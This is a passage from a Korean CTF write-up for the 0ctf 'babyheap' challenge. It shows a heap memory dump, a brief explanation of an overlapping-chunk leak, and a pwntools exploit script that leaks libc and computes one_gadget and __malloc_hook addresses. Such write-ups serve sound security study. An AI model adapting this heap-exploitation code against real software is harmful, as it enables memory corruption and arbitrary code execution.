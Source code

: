 ```c
0x32f2de63c160:	0x0000000000000001	0x0000000000000010
0x32f2de63c170:	0x000055aea9d94110	0x0000000000000001
0x32f2de63c180:	0x00000000000000f0	0x000055aea9d94010
0x32f2de63c190:	0x0000000000000000	0x0000000000000000
0x32f2de63c1a0:	0x0000000000000000	0x0000000000000001
0x32f2de63c1b0:	0x0000000000000020	0x000055aea9d94230
```

그리고 0xf0 만큼 다시 할당하면 포인터 아다리가 잘 맞게 된다. 0 chunk와 1 chunk가 바뀌었지만 0 chunk에 main.arena.top이 있기에 dump(0)을 해주면 leak이 가능하다.

```python
from pwn import *

t = process('./0ctfbabyheap')

r = lambda w: t.recvuntil(str(w))
s = lambda z: t.sendline(str(z))

def add(a):
	r("Command: ")
	s("1")
	r("Size: ")
	s(str(a))

def fill(a,b,c):
	r("Command: ")
	s("2")
	r("Index: ")
	s(str(a))
	r("Size: ")
	s(str(b))
	r("Content: ")
	s(str(c))

def free(a):
	r("Command: ")
	s("3")
	r("Index: ")
	s(str(a))

def dump(a):
	r("Command: ")
	s("4")
	r("Index: ")
	s(str(a))

add(0xf0)
add(0x10)
add(0xf0)
add(0x20)
free(1)
free(0)
add(0x10)
fill(0,0x20,p64(0)*2 + p64(0x120) + p64(0x100))
free(2)
add(0xf0)
dump(0)
r("Content: \n")
libc = u64(t.recv(6).ljust(8,'\x00')) - 0x3c4b78
log.info("libc ==> " + hex(libc))
one = libc + 0x4526a
malloc_hook = libc + 0x3c4b10

```